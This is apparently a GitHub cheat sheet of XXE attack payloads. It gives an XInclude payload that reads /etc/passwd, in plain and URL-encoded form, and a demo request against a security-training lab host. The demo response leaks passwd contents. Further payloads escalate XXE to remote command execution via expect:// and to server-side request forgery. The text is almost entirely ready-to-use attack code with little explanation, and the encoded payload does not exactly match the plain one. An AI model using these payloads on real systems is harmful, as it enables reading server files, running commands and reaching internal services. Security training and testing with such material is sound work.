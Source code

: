### XXE file read via XInclude payload as parameter value 
#### `payload`

```xml
<akrech xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></akrech>
```

#### `url encoded payload`
```
%3c%66%6f%6f%20%78%6d%6c%6e%73%3a%78%69%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%31%2f%58%49%6e%63%6c%75%64%65%22%3e%0d%0a%3c%78%69%3a%69%6e%63%6c%75%64%65%20%70%61%72%73%65%3d%22%74%65%78%74%22%20%68%72%65%66%3d%22%66%69%6c%65%3a%2f%2f%2f%65%74%63%2f%70%61%73%73%77%64%22%2f%3e%3c%2f%66%6f%6f%3e
```
#### `Request demo`
```http
POST /product/stock HTTP/1.1
Host: web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
...
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

productId=%3c%66%6f%6f%20%78%6d%6c%6e%73%3a%78%69%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%31%2f%58%49%6e%63%6c%75%64%65%22%3e%0d%0a%3c%78%69%3a%69%6e%63%6c%75%64%65%20%70%61%72%73%65%3d%22%74%65%78%74%22%20%68%72%65%66%3d%22%66%69%6c%65%3a%2f%2f%2f%65%74%63%2f%70%61%73%73%77%64%22%2f%3e%3c%2f%66%6f%6f%3e&storeId=1
```
#### `Response demo`

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1279

"Invalid product ID: 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```


### XXE to RCE
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY exploit SYSTEM "expect://id"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&exploit;</lastName>
</userInfo>
```
### XXE to SSRF
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```